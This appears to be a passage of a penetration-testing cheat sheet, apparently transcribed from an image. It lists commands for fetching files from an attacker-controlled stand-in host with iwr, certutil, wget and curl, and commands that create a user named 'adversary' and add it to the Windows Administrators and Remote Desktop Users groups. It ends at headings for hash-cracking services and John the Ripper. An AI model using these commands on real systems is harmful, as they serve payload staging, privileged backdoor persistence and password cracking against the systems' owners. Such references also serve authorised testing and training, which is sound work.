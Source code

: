 ## Downloading on Windows

```powershell
bash -command Invoke-WebRequest -Uri http://adversary:port/FILE -Outfile C:\\temp\\FILE
iwr -uri http://adversary:port/file -Outfile file
certutil -urlcache -split -f "http://adversary:port/FILE" FILE
copy \\kali\share\file .
```

## Downloading on Linux

```bash
wget http://adversary:port/FILE
curl http://adversary:port/FILE OUTPUT_FILE
```



# Adding Users

## Windows

```bash
net user adversary Password123 /add
net localgroup Administrators adversary /add
net localgroup "Remote Desktop Users" adversary /add
```

## Linux

```bash
adduser user # Interactive
useradd user
# UID can be something new than existing, this command is to add a user to a specific group
useradd -u UID -g group user  
```

# Password-Hash Cracking

## Determine hash type

*Hash Analyzer*: [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) 

## Is hash well known? 

*Crackstation*: [https://crackstation.net/](https://crackstation.net/)

## JtR (John the Ripper)
